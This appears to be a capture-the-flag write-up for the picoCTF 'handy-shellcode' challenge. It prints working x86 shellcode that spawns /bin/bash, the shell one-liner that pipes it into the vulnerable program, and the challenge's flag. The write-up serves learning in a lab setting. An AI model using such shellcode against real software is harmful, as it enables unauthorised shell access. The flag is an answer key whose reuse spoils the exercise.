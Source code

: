 # handy-shellcode

## Challenge
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source.

## Solution
Looks like we need to just pipe in shellcode on the shell server, so I'm grabbing some shell code for just `/bin/bash`.

I grabbed it from `shell-storm`.

`"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`

I used python to output the byte code and cat to keep my standard in, then piped it into `vuln`.

```sh
(python -c "print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80')" ;cat )| ./vuln
```

`picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}`